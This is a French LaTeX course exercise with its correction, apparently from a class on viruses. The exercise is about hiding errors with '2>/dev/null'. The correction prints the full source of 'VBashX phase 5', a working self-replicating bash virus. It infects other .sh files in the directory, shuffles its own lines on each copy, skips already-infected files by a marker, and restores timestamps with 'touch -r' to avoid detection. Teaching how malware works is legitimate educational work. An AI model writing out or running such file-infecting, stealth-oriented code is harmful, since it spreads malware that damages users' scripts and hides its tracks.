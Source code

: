 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet VBashX]
\begin{enumerate}
\item[\textbf{5c)}] \textbf{Suppression des erreurs :} Ajouter \texttt{2>/dev/null} sur les commandes critiques (\texttt{grep}, \texttt{tail}, \texttt{cp}). Quelles erreurs cela masque-t-il ?
\end{enumerate}

\begin{correction}

Le virus complet Phase 5 intègre les 3 techniques de furtivité au code de Phase 4 :
\begin{lstlisting}[title=vbashx\_phase5.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 5 --- VBX_7k9Pz
REST_SIZE=13
LI=16
VIRUS_SIZE=$(($REST_SIZE + $LI))
TMP=".vbx_tmp.sh"
trap "rm -f $TMP .vbx_ref_*" EXIT
echo "#!/bin/bash" > $TMP
echo "SRC=\"$0\"" >> $TMP
nb=1; while [ $nb -le $LI ]; do
grep "#@${nb}#" "$0" >> $TMP
nb=$(($nb + 1)); done
chmod +x $TMP && ./$TMP
exit 0
MARKER="VBX_7k9Pz" #@1#
for f in *.sh; do #@2#
if [ "$(basename "$f")" != "$(basename "$SRC")" ]; then #@3#
if [ -z "$(grep "$MARKER" "$f" 2>/dev/null)" ]; then #@4#
cp -p "$f" ".vbx_ref_$$" 2>/dev/null #@5#
REST_S=13; LI_S=16; VS=$(($REST_S + $LI_S)) #@6#
tail -n $VS "$SRC" | head -n $REST_S >> "$f" 2>/dev/null #@7#
r=$(( ($RANDOM % 16) + 1 )) #@8#
n=1 #@9#
while [ $n -le $LI_S ]; do #@10#
grep "#@${r}#" "$SRC" >> "$f" 2>/dev/null #@11#
r=$(( ($r * 3) % 17 )) #@12#
n=$(($n + 1)); done #@13#
touch -r ".vbx_ref_$$" "$f" 2>/dev/null #@14#
rm -f ".vbx_ref_$$" 2>/dev/null #@15#
fi; fi; done #@16#
\end{lstlisting}

\textbf{Modifications par rapport à Phase 4 :}
\begin{itemize}
    \item \textbf{Ligne 8 :} \texttt{trap} pour le nettoyage automatique à la sortie (5b)
    \item \textbf{Lignes taguées \#@4\#, \#@5\#, \#@7\#, \#@11\# :} ajout de \texttt{2>/dev/null} pour masquer les erreurs (5c)
    \item \textbf{Ligne \#@5\# :} \texttt{cp -p} pour sauvegarder les attributs du fichier original (5a)
    \item \textbf{Ligne \#@14\# :} \texttt{touch -r} pour restaurer les horodatages après infection (5a)
    \item \textbf{Ligne \#@15\# :} nettoyage du fichier de référence après restauration des timestamps
\end{itemize}

\textbf{5c)} Le \texttt{2>/dev/null} masque les erreurs suivantes :
\begin{itemize}
    \item \texttt{grep} : erreur si le fichier n'existe pas ou n'est pas lisible
    \item \texttt{cp/tail} : erreur sur les permissions insuffisantes
    \item \texttt{touch} : erreur si le fichier de référence a été supprimé
\end{itemize}


\end{correction}
\end{exercice}
\end{document}
